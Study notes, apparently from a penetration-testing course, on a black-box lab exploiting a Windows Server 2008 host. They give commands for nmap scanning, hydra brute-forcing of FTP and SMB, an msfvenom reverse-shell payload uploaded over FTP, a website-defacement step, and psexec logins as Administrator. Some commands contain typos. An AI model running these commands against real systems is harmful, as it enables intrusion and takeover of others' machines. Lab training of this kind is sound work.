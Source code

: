 # 7 - Windows Exploitation

## <mark style="color:red;">Windows Black Box Penetration Test</mark>

### **Black Box Pentest**

* A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided).
* The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
* This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks.

### **Penetration Testing Phases**

* The following diagram outlines the various phases involved in a typical penetration test.

### **Black Box Methodology:**

* Host discovery
* Port scanning & enumeration
* Vulnerability detection/scanning
* Exploitation
* Manual
* Automated
* Post Exploitation
* Privilege Escalation
* Persistence
* Dumping Hashes

### **Scenario & Scope**

* You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network.
* The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008.
* Your primary objectives are:
  * Identify services running on the target.
  * Identify vulnerabilities within the services.
  * Exploit these vulnerabilities to obtain an initial foothold.



## Practical Demonstration

#### <mark style="color:yellow;">Black Box Port Scanning & Enumeration</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# discovering hosts in the network, we can get the target ip 
cat /etc/hosts # ping it to confirm reachability.

# nmap scan 
nmap -sV $ip # scan 1000 commonly used ports.
nmap -T4 -PA -sC -sV -p 1-10000 $ip -oX nmap_10k # -PA-ack scan, -oX-xml format.
nc -nv $ip 21 # to get banner, but no luck.
# we opened the "http://$ip/4848" on the web browser to take a look at the service, $ip/8080, $ip/9200 etc.

# we get a lot of http service ports based on the nmap scan on line 6, so we view each of them.

service postgresql start && msfconsole # create a workspace for the target (Win2k8).
db_import /path_to_nmapscan # import the scan.
# if you want the OS name to be specified correctly in the "os_name" column in msfconsole db a trick is to use the SMB version module.
search smb_version
use 0
options
set RHOSTS $ip
run
hosts # host name is now specified correctlly.
services # view all imported services.

# we can also do a comprehensive scan
nmap -sV -T4 -PA -sC -p 1-65535 $ip -oV nmap_All # didnt do.
nmap -sU -sV $ip # udp scan.
```
{% endcode %}

#### <mark style="color:yellow;">1 - Targeting Microsoft IIS FTP (port 21)</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# check for anonymous access with nmap "ftp-anon" script or mannually with ftp $ip, enter "anonymous" as UN, which didnt work.

# we can use hydra to perform bruteforce on the ftp server.
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # we got some creds.

# we can also check if the user "vagrant" exist also
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt $ip ftp # none exist but we can swap the wordlist and make use of the unix_users.txt in the "-P" option to check also. Save the creds.

ftp $ip # login with admin cred. We discover a .asp file, meaning the web server can execute .asp files....so we can generate a malicious .asp payload, upload it to get a reverse shell.

# using msfvenom to generate payload.
msfvenom -p wimdows/shell/reverse_tcp LHOST=$kaliIP LPORT=1234 -f asp > shell.aspx # we dont need a meterpreter shell here, hence we use normal reverse shell.

# login via ftp using the vagrant user.
ftp> put shell.aspx # upload the payload

# setup msfconsole to setup handler.
use multi/handler
set payload .....
set LHOST, LPORT. ..
run

# execute the file via the browser
# in this case we didnt get a reverse shell, even generating a .asp file didnt work also.

# what else can we do?
# attackers can deface the website since the "index.html" file is accessible in the ftp server.
get index.html

# open and edit, the upload it back.
put index.html
```
{% endcode %}

#### <mark style="color:yellow;">3 - Targeting OpenSSH</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we can perform a bruteforce, using "varant" and administrator as the user.
# login with the user "vagrant", we got a shell session.

# we can use the "use auxililary/scanner/ssh/ssh_login" module to obtain a meterpreter session, set USERNAME, PASSWORD to "Vagrant".
# upgrade to a meterpreter session "sessions -u 1" - but it failed.

# we can generate a meterpreter payload, and transfer it to the target via ssh, but that's not necessary in this case.

# in this case we can spawn a cmd shell session after loggin in via ssh using the "bash" cmd. Now we have a cmd prompt shell.

net localgroup administrators # check if the user is part of the local group.
whoami /priv # check user permissions.
```
{% endcode %}

#### <mark style="color:yellow;">4 - Targeting SMB</mark>

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -sC -p 445 $ip # indepth SMB scan.
hydra -l administrator -P /usr/share.../unix_users_or_password.txt smb # btrute force on smb. Test the "vagrant" user too.

# we can authenticate via rdp, but for now we are working on SMB.
smbclient -L $ip -U vagrant # list the vagrant shares.
smbmap -y vagrant -p vagrant -H $ip # list shares.
enum4linux -u vagrant -p vagrant -U $ip # enumerate other users on the PC.

# enumeratin shares with metasploit.
use auxiliary/scanner/smb/smb_enumusers_domain
set RHOSTS, SMBUser, SMBPass vagrant, run

# we can also use psexec.py script to authenticate.
locate psexec.py
chmod +x psexec.py
python3 psexec.py Administrator@$ip # login with psexec. We are NT AUTHORITY.

# msfconsole also have a psexec module (exploit/windows/smb/psexec).
```
{% endcode %}























